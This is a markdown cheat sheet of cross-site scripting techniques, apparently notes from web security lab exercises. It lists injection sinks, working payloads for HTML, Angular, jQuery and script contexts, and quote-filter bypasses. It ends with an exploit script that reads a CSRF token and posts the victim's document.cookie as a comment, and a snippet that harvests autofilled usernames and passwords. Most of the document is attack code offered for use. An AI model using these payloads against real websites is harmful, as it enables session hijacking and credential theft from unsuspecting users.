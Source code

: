 **use DOM-invader**
## Sinks
* `document.write`
* jQuery's `attr()` funciton, Example
```js
$("img").attr("src", "example.com")
```


## HTML - Context

### href
`javascript:alert(1)` 

### rel="canonical"
Triggers XSS on `ALT+SHIFT+X`
```
<link rel="canonical" href=... accesskey="x" onclick="alert(1)">
```

## Angular

* If `ng-app` is enabled -> XSS withot angle brackets
```
{{$on.constructor('alert(1)')()}}
```

### JQuery
*popular* `$(window).on('hashchange'`
-> trigger hashchange on attacker server
```js
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

### Tricks
Use animate to set href attribute:
```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

* Use `&` in payload - get parameter and whole parameter might be parsed differently
* `onerror=alert;throw 1`
* `&apos;` -> Substitute for `'` (the `;` is part of the element!)


#### Bypass `'` and `"` filter with `&apos`

## `<script>` Context
1. Terminate Existing script `</script><img src=...`
2. Bypass filters
```
5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```
### template literal 
```
`${alert(1)}`
```

# Exploits
Steal cookie and post as comment
```html
<!-- type module to allow await -->
<script type="module">
// Grab CSRF
const csrf = document.querySelector('[name="csrf"]').value;
const url = "https://0ab0009604f562a28107b12700a90002.web-security-academy.net/post/comment"
const response = await fetch(url, {
    method: "POST",
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
    },
    body: new URLSearchParams(
        {
            csrf:csrf,
            postId:9,
            comment:"my session cookie is:" + document.cookie,
            name:"c",
            email:"a@a",
            website:"http://"
        }

    ).toString()
}).then(()=>console.log("Success!"));
</script>
```
## Steal autofill login
```js

// Create Username and password elements
var userEle = document.createElement("input");
userEle.name = "username";
var passwdEle = document.createElement("input");
passwdEle.name = "password";
passwdEle.type = "password";
[userEle, passwdEle].forEach((ele) => {
    document.body.appendChild(ele);
});
// Username and password are now in these values
var user = userEle.value;
var pass = passwdEle.value;
```

## Troubleshooting Exploits
* Check on different browser
